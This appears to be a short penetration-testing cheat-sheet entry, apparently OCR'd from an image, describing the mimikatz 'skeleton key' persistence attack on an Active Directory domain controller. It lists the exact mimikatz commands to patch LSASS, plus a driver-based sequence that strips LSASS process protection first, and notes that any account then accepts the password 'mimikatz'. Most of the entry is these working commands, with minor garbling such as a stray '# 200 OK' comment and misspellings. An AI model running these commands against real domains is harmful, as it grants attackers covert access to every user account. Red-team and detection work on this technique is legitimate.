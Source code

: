 #mimikatz 
- Persistence technique where it is possible to path the DC's lssass process so that it allows access as any user with a single password.
- Discovered by Dell Secureworks.
- Using mimikatz to inject skeleton key
```powershell
privilege::debug # 200 OK
misc::skeleton
# Any resource can be accessed by it's username and password as "mimikatz"
```
- In case the lssass.exe process in running as a protected process, we need to use the mimidriv.sys (mimikatz driver) to use skeleton key:
```powershell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
# NOTE: The above process is noisy in logs
```